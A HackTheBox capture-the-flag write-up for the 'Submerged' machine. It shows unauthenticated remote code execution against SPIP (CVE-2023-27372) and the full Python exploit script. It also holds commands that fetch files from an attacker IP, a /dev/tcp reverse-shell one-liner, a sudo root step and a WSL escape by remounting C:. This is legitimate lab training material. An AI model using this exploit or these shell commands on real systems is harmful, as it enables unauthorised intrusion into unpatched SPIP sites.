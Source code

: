  
## Reconnaissance

### nmap 

![](./IMG/0.png)

### Web Service

![](./IMG/1.png)

> Find Subdomain 

```
http://spip.submerged.htb/
```

![](./IMG/4.png)


> Access these subdomain and enumerate it 
> Find an email 

![](./IMG/3.png)

> Find login page 

![](./IMG/2.png)

> Find reset password page

![](./IMG/5.png)

> Gobuster result for 2 different domain 
> But most of the page are not useful or I can't access successfully

![](./IMG/6.png)

![](./IMG/7.png)

## Exploit 

> With above enumeration
> The subdomain build up on SPIP framework 

- [SPIP v4.2.0 - Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/51536)
- [CVE-2023-27372: Remote Code Execution in SPIP](https://ethicalhacking.uk/cve-2023-27372-remote-code-execution-in-spip/#gsc.tab=0)
- [(GITHUB)CVE-2023-27372](https://github.com/nuts7/CVE-2023-27372)
- [(GITHUB)CVE-2023-27372](https://github.com/ThatNotEasy/CVE-2023-27372)
- [(GITHUB)CVE-2023-27372-PoC](https://github.com/0SPwn/CVE-2023-27372-PoC)

> I used most of the exploit code from internet. 
> but most of them are failed by some attributes are deprecated.
> I will get the following error message 

```
AttributeError: module 'urllib3.util.ssl_' has no attribute 'DEFAULT_CIPHERS'
```

![](./IMG/10.png)

> Then I tried to modify the exploit code 


```
import argparse
import bs4
import html
import requests
from requests.adapters import HTTPAdapter
from urllib3.poolmanager import PoolManager
from urllib3.util.ssl_ import create_urllib3_context

class SSLContextAdapter(HTTPAdapter):
    def __init__(self, ssl_context=None, **kwargs):
        self.ssl_context = ssl_context
        super().__init__(**kwargs)

    def init_poolmanager(self, *args, **kwargs):
        kwargs['ssl_context'] = self.ssl_context
        return super().init_poolmanager(*args, **kwargs)

def parseArgs():
    parser = argparse.ArgumentParser(description="Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found : %s" % csrf_value)
        return csrf_value
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = session.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload : %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    requests.packages.urllib3.disable_warnings()

    # 創建自定義 SSLContext
    context = create_urllib3_context()
    context.set_ciphers('HIGH:!DH:!aNULL')

    # 使用自定義 SSLContext 設置 HTTPAdapter
    session = requests.Session()
    adapter = SSLContextAdapter(ssl_context=context)
    session.mount('https://', adapter)

    csrf = get_anticsrf(url=options.url)
    send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))
```

![](./IMG/11.png)

> With this code, I can execute python without error message
> And ping command will work

![](./IMG/12.png)

> I also uploaded info.php
> And it works when I access it from browser

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/info.php' -v

```

![](./IMG/14.png)

![](./IMG/15.png)

> But I also tried to upload php web shell, it won't be execute --> Failed

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/shell.php' -v
```

> I tried to using /bin/bash to create reverse shell --> failed 

```
python exp2.py -u http://spip.submerged.htb -c 'sh -i >& /dev/tcp/10.10.14.17/1337 0>&1' -v
```

![](./IMG/13.png)

> Finally, I uploaded a reverse shell file 

```
python exp2.py -u http://spip.submerged.htb -c 'wget http://10.10.14.17/rev.sh' -v
```

![](./IMG/17.png)

> Execute it 

```
python exp2.py -u http://spip.submerged.htb -c '/bin/bash rev.sh' -v
```

![](./IMG/16.png)

> Check cuurent user 

![](./IMG/18.png)

> Get user flag

![](./IMG/19.png)


## Privilege Escalation 

> Check sudo permission 

![](./IMG/8.png)

> I can get root with following command

```
sudo su
```

![](./IMG/9.png)

> But there is no flag in /root 

![](./IMG/20.png)

>  I start to enumerate all the directory, and some command to list some information 
>  I found this system is  linux based on Microsoft ...

![](./IMG/21.png)

>  But the directory looks like linux 
>  So, I think it might be a virtual machine based on Microsoft 
>  Then I check the /mnt and I find there is a c directory
>  But it's empty

![](./IMG/22.png)

> Then I think it might be wsl 
> Hence I check wsl.conf

![](./IMG/23.png)

> Following this video 

- [Tryhackme Weasel Walkthrough | How to escape WSL (Windows Subsystem for Linux) and jupyter notebook](https://www.youtube.com/watch?v=iu0_rqY2ds4)

> I used the command to remount the c directory 

```
mount -t drvfs 'c:' /mnt/c
```

![](./IMG/24.png)

> Then I can view the directory in windows C:/

![](./IMG/25.png)

> Find flag 

![](./IMG/26.png)

![](./IMG/27.png)

## Reference 


###### tags: `HackTheBox`